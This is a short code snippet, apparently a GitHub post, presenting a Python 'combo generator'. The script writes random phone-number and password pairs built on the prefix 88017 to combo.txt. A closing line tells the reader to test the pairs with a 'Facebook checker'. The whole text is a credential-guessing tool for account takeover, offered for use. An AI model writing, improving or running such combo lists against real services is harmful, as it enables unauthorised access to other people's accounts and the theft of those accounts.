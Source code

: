 # Combo Generator Code

```
import os, random
gppass = "017"
gp = "88017"
for i in range (10) :
  randomn = random.randint(11111111,99999999)
  rannum = str (randomn)
  number = gp + rannum
  password = gppass + rannum
  open ("combo.txt" ,"a").write("\n"+number + ":" + password )
 
```

After making combo check accounts with Facebook checker 😴

